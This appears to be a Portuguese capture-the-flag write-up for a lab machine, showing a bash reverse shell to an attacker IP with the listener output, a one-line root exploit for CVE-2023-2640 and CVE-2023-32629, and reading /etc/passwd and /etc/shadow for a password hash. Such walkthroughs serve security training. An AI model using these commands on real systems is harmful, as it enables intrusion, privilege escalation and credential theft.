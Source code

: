 ![](https://i.imgur.com/130mvPg.png)

Com o Shell feito, é possível iniciar o Shell reverso para um melhor desempenho.

```www-data@webserver:…/html/uploads# /usr/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.159/4444 0>&1'```

``` shell
nc -lvpn 4444 
listening on [any] 4444 ...
10.10.11.241: inverse host lookup failed: Unknown host
connect to [10.10.14.159] from (UNKNOWN) [10.10.11.241] 6608
bash: cannot set terminal process group (952): Inappropriate ioctl for device
bash: no job control in this shell
www-data@webserver:/var/www/html/uploads$ 
```

Identifiquei a versão do servidor, sendo ela a Ubuntu 23.04.
```shell
www-data@webserver:/var/www/html/uploads$ cat /etc/os-release
cat /etc/os-release
PRETTY_NAME="Ubuntu 23.04"
NAME="Ubuntu"
VERSION_ID="23.04"
VERSION="23.04 (Lunar Lobster)"
VERSION_CODENAME=lunar
ID=ubuntu
ID_LIKE=debian
HOME_URL="https://www.ubuntu.com/"
SUPPORT_URL="https://help.ubuntu.com/"
BUG_REPORT_URL="https://bugs.launchpad.net/ubuntu/"
PRIVACY_POLICY_URL="https://www.ubuntu.com/legal/terms-and-policies/privacy-policy"
UBUNTU_CODENAME=lunar
LOGO=ubuntu-logo
```
Com essas informação em mãos, encontrei as vulnerabilidades CVE-2023-2640 e CVE-2023-32629

É possível verificar mais informações sobre em:
https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629

Para conseguirmos acesso como root, executaremos o seguinte comando:
```
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("cp /bin/bash /var/tmp/bash && chmod 4755 /var/tmp/bash && /var/tmp/bash -p && rm -rf l m u w /var/tmp/bash")'
```

Agora iremos encontrar os usuários ativos do sistema usando ```cat /etc/passwd```, e como resultados encontramos o usuário:

```
drwilliams:x:1000:1000:Lucy Williams:/home/drwilliams:/bin/bash
```

Utilizando o comando ```cat /etc/shadow```, é possível encontrar a hash de da senha do drwilliams.
